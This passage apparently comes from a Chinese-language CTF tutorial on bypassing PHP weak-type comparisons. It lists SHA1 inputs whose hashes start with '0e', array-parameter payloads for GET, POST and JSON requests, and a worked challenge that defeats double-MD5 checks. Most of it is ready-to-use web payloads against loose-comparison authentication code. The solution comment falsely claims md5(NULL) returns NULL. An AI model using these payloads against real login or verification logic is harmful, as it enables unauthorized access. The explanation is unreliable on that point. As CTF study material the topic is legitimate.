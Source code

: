 ### 2. SHA1弱类型绕过合集

```text
aaroZmOk        → 0e66507019969427134894567494305185566735
aaK1STfY        → 0e76658526655756207688271159624026011393
aaO8zKZF        → 0e89257456677279068558073954252716165668
aa3OFF9m        → 0e36977786278517984959260394024281014729
```

### 3. 数组绕过通用Payload

```text
# GET参数
?a[]=1&b[]=2
?param1[]=123&param2[]=456

# POST数据
a[]=1&b[]=2
user[]=admin&pass[]=123456

# JSON格式
{"a":[],"b":[]}
{"user":[],"pass":[]}
```

### 4. 组合绕过Payload

```php
// 多重验证绕过示例
if(md5($_POST['user']) == md5($_POST['pass']) && $_POST['user'] != $_POST['pass']){
    if(sha1($_POST['key1']) == sha1($_POST['key2']) && $_POST['key1'] != $_POST['key2']){
        echo "flag{xxx}";
    }
}

// 绕过方法：
// user[]=1&pass[]=2&key1[]=3&key2[]=4
```

---

## CTF实战案例

### 案例1：双重MD5验证绕过

```php
// 挑战代码
if(isset($_GET['a']) && isset($_GET['b'])){
    if($_GET['a'] != $_GET['b'] && md5($_GET['a']) == md5($_GET['b'])){
        if(md5(md5($_GET['a'])) == md5(md5($_GET['b']))){
            echo $flag;
        }
    }
}

// 解决方案
// ?a[]=1&b[]=2
// md5(array()) 返回 NULL
// md5(NULL) 也返回 NULL
// NULL == NULL 为 true
```
